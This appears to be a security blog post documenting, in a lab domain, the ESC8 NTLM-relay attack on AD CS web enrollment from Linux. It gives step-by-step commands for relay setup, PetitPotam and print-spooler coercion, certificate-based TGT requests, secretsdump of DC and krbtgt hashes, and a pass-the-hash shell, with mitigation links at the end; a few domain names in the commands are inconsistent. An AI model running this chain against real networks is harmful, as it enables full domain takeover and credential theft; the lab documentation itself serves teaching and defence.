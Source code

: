 ```yaml
---
title: "AD CS NTLM Relay Attack from Linux"
layout: post
tags: [ad]
excerpt: "Guide to exploiting 'ESC8 — NTLM Relay to AD CS HTTP Endpoints' from Linux to compromise a domain"
---
```


This is nothing new, I am just documenting my approach to exploiting an Active Directory (AD) environment with a misconfigured Active Directory Certificate Services (AD CS). This is only one method of many... I highly recommended to read the original research on attacking AD CS by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) - [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2). I also recommend reading [this blog post](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6) for more details about [Certipy](https://github.com/ly4k/Certipy), which is a fantastic tool for enumerating and abusing AD CS.

## Overview and Background

AD CS supports several HTTP-based enrollment methods via additional server roles that administrators can optionally install:

The Certificate Authority Web Enrollment, Certificate Enrollment Policy Web Service, and Network Device Enrollment Service roles in AD CS support HTTP-based certificate enrollment. If NTLM relay protections are not enabled (generally the default), then these enrollment interfaces are vulnerable to NTLM relay attacks. We will focus on the Web Enrollment interface which is accessible via `http://<ca-server>/certsrv/`, as I have seen this endpoint on several internal networks. This endpoint by default only supports HTTP (which cannot protect against NTLM relay attacks) and allows NTLM authentication.

One of the most frustrating parts of an internal (for me) has always been waiting for a high privilege accounts to attempt to connect to Responder, so you can capture and try relay the hash to another host which has SMB signing disabled. However, tools such as [PetitPotam](https://github.com/topotam/PetitPotam) and [SpoolSample](https://github.com/leechristensen/SpoolSample) ([Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) - python implementation) have come to the aid of impatient attackers waiting for hashes to roll in, and are provide a way to coerce an account to authenticate to us. In this post, we will coerce authentication from the Domain Controller (DC) to our attacker machine, which is configured to relay the NTLM authentication request to a vulnerable CA Web Enrollment endpoint. Once the certificate is intercepted, it can be used to request a Ticket Granting Ticket (TGT) for the `DC$` machine account - allowing us to Pass-the-Ticket or UnPAC and Pass-the-Hash to compromise the domain.

---
## Lab Notes:

- Domain: `lab.local`

- Domain Controller:
	- Windows Server 2019
	- `dc.lab.local`
	- 172.30.0.136
- Certificate Authority:
	- Windows Server 2016
	- `ca.lab.local`
	- 172.30.0.21
- Attacker Machine:
	- Ubuntu 22.04
	- 172.30.0.232
- Assumption that the following user account has been compromised:
	- Username: jdoe
	- Password: Password123

	<p align="left">
	<img width="70%" src="/assets/images/ad/adcs-esc8/jdoe-user-properties.png"/>
	</p>


For the NTLM relay attack to work, the following conditions need to be true:

- ADCS is configured to allow NTLM-based authentication

- NTLM authentication is not protected by Extended Protection for Authentication (EPA)

- ADCS is running either of these services:
	- Certificate Authority Web Enrollment
	- Certificate Enrollment Web Service

<p align="center">
<img width="30%" src="/assets/images/ad/adcs-esc8/ntlm-based-auth-enabled.png"/>
<img width="30%" src="/assets/images/ad/adcs-esc8/adcs-enrollment-services.png"/>
<img width="30%" src="/assets/images/ad/adcs-esc8/eap-disabled.png"/>
</p>

If you are building a lab to test this on yourself, keep in mind that:

- You cannot relay NTLM credentials to the same host that is initiating the authentication request. This is called NTLM reflection and it used to work but has been patched (several times). So make sure you don't set up your CA (running AD CS) on the same host as the DC.

- When requesting a Kerberos authentication ticket (TGT), if you get the following error: `KDC_ERR_CLIENT_NOT_TRUSTED`, you have likely not imported the CA certificate into the DC.

	> This typically happens when user’s smart-card certificate is revoked or the root Certification Authority that issued the smart card certificate (in a chain) is not trusted by the domain controller.

--- 	
## Tools:

Note: you won't need all of these tools, as I am covering various ways to perform the attack. So use whatever tool(s) work for you.


 - OS Requirements

	```
	~$ sudo apt install -y python3 python3-pip ldap-utils
	```

 - [Certipy](https://github.com/ly4k/Certipy)

 	```
 	~$ git clone https://github.com/ly4k/Certipy
 	~$ cd Certipy
 	~$ sudo python3 setup.py install
 	```

 - [Impacket](https://github.com/SecureAuthCorp/impacket) - You no longer need the ExAndroidDev fork of impacket, as their awesome work (ntlmrelayx-adcs-attack branch) was merged into SecureAuthLab's master branch.

 	```
 	~$ git clone https://github.com/SecureAuthCorp/impacket
 	~$ cd impacket
 	#~$ python3 -m venv impacket-venv
	#~$ source impacket-venv/bin/activate
	~$ sudo python3 -m pip install -r requirements.txt
	~$ sudo python3 -m pip install .
 	```


 - [PKINITtools](https://github.com/dirkjanm/PKINITtools)

  	```
 	~$ git clone https://github.com/dirkjanm/PKINITtools
 	~$ cd PKINITtools
 	~$ python3 -m pip install -r requirements.txt
 	```

 - [PetitPotam](https://github.com/topotam/PetitPotam)

 	```
 	~$ git clone https://github.com/topotam/PetitPotam
 	```  	

 - [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket)

 	```
 	~$ git clone https://github.com/NotMedic/NetNTLMtoSilverTicket
 	```  	


## Identify the CA (Manually)

On Linux, if you don't already know the CA server details, you can try find it using the following query - which should return members of the "Cert Publisher" group. As per Windows:

> Members of this group are permitted to publish certificates to the directory.

```
ldapsearch -LLL -x -H ldap://172.30.0.136 -b "dc=lab,dc=local" -D jdoe@lab.local -w Password123 "(&(objectCategory=group)(cn=Cert Publishers))"
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ldapsearch-cert-publishers.png"/>
</p>

You could also try searching by computer description:

```
ldapsearch -LLL -x -H ldap://172.30.0.136 -b "dc=lab,dc=local" -D jdoe@lab.local -w Password123 "(&(objectCategory=computer)(description=*cert*))"
```
<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ldapsearch-computer-description.png"/>
</p>


On Windows, you can use the certutil application to easily identify the CA:

```
certutil.exe
```

<p align="left">
  <img width="40%" src="/assets/images/ad/adcs-esc8/certutil.png"/>
</p>

Once you have identified the CA server, open a web browser and verify that the certificate web enrollement service is running:

<p align="left">
  <img width="80%" src="/assets/images/ad/adcs-esc8/adcs-http-web-enrollment.png"/>
</p>

## Enumerate AD CS Configuration

We will use [Oliver Lyak's](https://twitter.com/ly4k_) python implementation of Ceritfy - [Certipy](https://github.com/ly4k/Certipy) (which will also identify the CA for us), to enumerate details about the AD CS configuration - specifically which templates are supported. As per the github readme:

> The `find` command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations.

```
~$ certipy find 'lab.local/jdoe:Password123@dc.lab.local'
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-adcs-enumeration.png"/>
</p>

Looking at the output, we can see that Ceritpy identified the CA server and that the HTTP Web Enrollment service is enabled:

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/certipy-find-output.png"/>
</p>

There are some [custom bloodhound queries](https://github.com/ly4k/Certipy/blob/main/customqueries.json) which can quickly identify misconfigured certificate templates.

<p align="left">
  <img width="60%" src="/assets/images/ad/adcs-esc8/bloodhound-custom-queries.png"/>
</p>

Note: this is only scratching the surface of what you can do with certipy. It is an extremely useful offensive tool for abusing AD CS. I found this found this out close to the end of writing this blog as I had the tool on my list of things to read but didn't get around to it until it was too late.


## NTLM Relay Set Up

The first step is to set up our attacker machine to perform the NTLM relay attack using [impacket's ntlmrelayx](https://github.com/SecureAuthCorp/impacket)

```
~$ sudo python3 impacket/examples/ntlmrelayx.py -debug -smb2support --target http://ca.lab.local/certsrv/certfnsh.asp --adcs --template DomainController
```

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/ntlmrelayx-relay-setup.png"/>
</p>


## Coercing Authentication of the DC to our Attacker Machine

Next, we need to coerce authentication of the DC to our attacker machine, so we can relay the authentication request to the CA.


`PetitPotam.py -d <domain> -u <user> -p <password> <attacker-ip> <target-ip>`

```
~$ python3 PetitPotam/PetitPotam.py -d lab.local -u jdoe -p Password123 172.30.0.232 172.30.0.136
```

After executing PetitPotam, the authentication request is relayed via our attacker machine to the CA server and a certificate was issued for the DC machine account (`DC$`).

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ntlmrelayx-petitpotam-execute.png"/>
</p>

Looking at the CA server, we can see that the new certificate (Request ID:4) that has been issued:

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/ca-new-dc-cert.png"/>
</p>


## Pass-the-Ticket [on Linux]

On Linux, first we'll need to decode the base64 encoded certificate blob that we intercepted and write the output into a file.

```
~$ echo "MIIRpQIBAzCCEV8GCSqGSIb3DQEHAa..." | base64 -d > cert.pfx
```

We can then use the certificate to impersonate the DC machine account (`DC$`) and use [DirkJam’s gettgtpkinit](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) script to request a Ticket Granting Ticket (TGT).

```
~$ python3 PKINITtools/gettgtpkinit.py 'lab.local/dc$' -cert-pfx cert.pfx dc.ccache
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/request-tgt.png"/>
</p>

Now that we have a valid TGT, we need to request a Ticket Granting Service (TGS) with Kerberos S4U2Self. This can be done using [DirkJam’s gets4uticket](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) script to obtain a Kerberos service ticket (TGS) to the CIFS service for the local administrator of the DC - this is known as a silver ticket 🎟.

```
~$ KRB5CCNAME=dc.ccache python3 PKINITtools/gets4uticket.py 'kerberos+ccache://lab.local\dc$:dc.ccache@dc.lab.local' cifs/dc.lab.local@auralab.local Administrator@lab.local Administrator.ccache -v
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/request-s4u-admin.png"/>
</p>

Finally we can pass-the-ticket and use [impacket's secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) script to loot the DC's `NTDS.dit` file. As an example, we can retrieve the hash of the `krbtgt` account, allowing us to craft golden tickets 🎫.

```
~$ KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -k lab.local/Administrator@dc.lab.local -no-pass -just-dc-user Administrator
```

Dumping the entire `NTDS.dit` file is a bit overkill on an engagement as all of the user accounts and service accounts *should* be reset after they have been compromised. On a large customer network, with several hundred service accounts being used, this could cause many hours of work.

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ptt-secrets-dump-krbtgt.png"/>
</p>

```
~$ KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -debug -k lab.local/Administrator@dc.lab.local -no-pass -outputfile dc-lab-secretsdump
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/ptt-secrets-dump-all.png"/>
</p>


# Alternatively: UnPAC and Pass-the-Hash

Instead of passing the ticket, we could get the NT hash of the DC machine account. This is done using [DirkJam’s getnthash](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) script and our previously obtained TGT to request a PAC for the DC machine account (`DC$`) using Kerberos U2U. The NT hash can be decrypted using the `AS-REP` key that was generated for the TGT.

```
~$ KRB5CCNAME=dc.ccache sudo python3 PKINITtools/getnthash.py 'lab.local/dc$' -key db89b471b9aae3e77255158503d64badc6354c325b7937074924bfd0b0b09dfd
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-nt-hash.png"/>
</p>


Note: Machine accounts (in this case `DC$`) don't have enough privileges to execute commands with wmiexec. However, we can use the NT hash of the DC machine account to retrieve the DC local Administrator NTLM hash.

```
~$ sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user Administrator
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-dc-localadmin-hash.png"/>
</p>

Once have obtained the NTLM hash of the local Administrator account for the DC, we can perform a pass-the-hash attack and gain shell access using [impacket's wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) script.

```
~$ sudo python3 impacket/examples/wmiexec.py -hashes :4ea013e3dcbd5ee3bb088615b7589b19 lab.local/Administrator@dc.lab.local
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/wmiexec-dc-shell.png"/>
</p>

We could also have used the NT hash of the DC machine account to retrieve the NTLM hash of the `krbtgt` account - allowing us to generate golden tickets.

```
~$ sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user krbtgt
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/recover-krbtgt-hash.png"/>
</p>


## Notice me Certipy

As I mentioned earlier, you could actually perform most of the attack chain with Certipy. Additionally, Certipy can exploit many more AD CS misconfigurations and will be my go-to tool in the future when it comes to pwning AD CS.


### NTLM Relay Setup

```
~$ sudo certipy relay -ca ca.lab.local -template DomainController
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-relay-setup.png"/>
</p>


### Coercing Authentication of the DC to our Attacker Machine

To keep things a little interesting at this point, let's use [3xocyte's dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) script to exploit the print spooler ([SpoolSample](https://github.com/leechristensen/SpoolSample)) bug. This will have the same effect of coercing authentication of the DC to our attacker machine.

`python3 dementor.py <attacker-ip> <target-ip> -u <username> -p <password> -d <domain>`

```
~$ python3 NetNTLMtoSilverTicket/dementor.py 172.30.0.232 172.30.0.136 -u jdoe -p Password123 -d labl.local
```

<p align="left">
  <img width="100%" src="/assets/images/ad/adcs-esc8/certipy-dementor-execute.png"/>
</p>

If the relay attack is succesful, the certificate and private key will be saved as a PFX file - `dc.pfx` in this instance.


### Pass-the-Ticket or UnPAC and Pass-the-Hash

Similar to how to did before, we can obtain a TGT and recover the NT hash of the DC machine account using the `auth` command of certipy. As per the readme:

> The  `auth` command will use the PKINIT Kerberos extension to authenticate with the provided certificate to retrieve a TGT and the NT hash of the user.

```
~$ certipy auth -pfx dc.pfx
```

<p align="left">
  <img width="70%" src="/assets/images/ad/adcs-esc8/certipy-auth.png"/>
</p>

You could now either pass-the-ticket using the credential cache (`dc.ccache`) or pass-the-hash of the `DC$` machine account and execute impackets secretsdump as I have already covered previously.


## Mitigation

- "Harden AD CS HTTP Endpoints – PREVENT8" of the original [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) covers the mitigation of this issue.
- https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429

## Links + References

- Will Schroeder & Lee Christensen - Certified Pre-Owned: https://posts.specterops.io/certified-pre-owned-d95910965cd2
- Gilles Lionel - PetitPotam POC: https://github.com/topotam/PetitPotam
- https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/
- https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate
- https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux
- https://www.hackingarticles.in/domain-escalation-petitpotam-ntlm-relay-to-adcs-endpoints/
- https://www.thehacker.recipes/ad/movement/ad-cs
- https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash


## Credits

Obviously to all the researchers and people who make these offensive tools. Also a shoutout to my employer [Aurainfosec](https://www.aurainfosec.com/) for giving me time to learn and upskill :)
